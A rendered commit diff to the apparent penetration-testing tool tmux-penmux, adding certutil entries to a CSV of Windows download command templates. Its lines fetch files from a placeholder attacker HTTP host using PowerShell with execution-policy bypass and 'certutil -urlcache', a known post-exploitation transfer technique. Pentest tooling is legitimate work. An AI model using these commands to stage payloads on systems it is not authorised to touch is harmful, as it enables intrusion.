

Before and after one commit to mfulz/tmux-penmux, a CSV file: modules/comm/HttpExchange/commands/windows.csv, drawn as a sheet.

Commit message:
Added certutil download

```diff
--- a/modules/comm/HttpExchange/commands/windows.csv
+++ b/modules/comm/HttpExchange/commands/windows.csv
@@ -1,4 +1,7 @@
 name,description,command
-psIwrHome,Download file using powershell webrequest into home dir,powershell -nop -ep bypass iwr -outfile $HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
+psIwrHome,Download file using powershell webrequest into home dir,powershell -nop -ep bypass iwr -outfile $env:HOME/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
 psIwrTemp,Download file using powershell webrequest into temp dir,powershell -nop -ep bypass iwr -outfile $env:TEMP/$$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
 psIwr,Download file using powershell webrequest into act dir,powershell -nop -ep bypass iwr -outfile $$fileName$$ -uri http://###HttpHost###:###HttpPort###/$$file$$
+cmdCertutilHome,Download file using cmd / certutil into home dir,cmd /c certutil.exe -urlcache -split -f http://###HttpHost###:###HttpPort###/$$file$$ %HOME%/$$fileName$$
+cmdCertutilTemp,Download file using cmd / certutil into temp dir,cmd /c certutil.exe -urlcache -split -f http://###HttpHost###:###HttpPort###/$$file$$ %TEMP%/$$fileName$$
+cmdCertutil,Download file using cmd / certutil into act dir,cmd /c certutil.exe -urlcache -split -f http://###HttpHost###:###HttpPort###/$$file$$ $$fileName$$
```
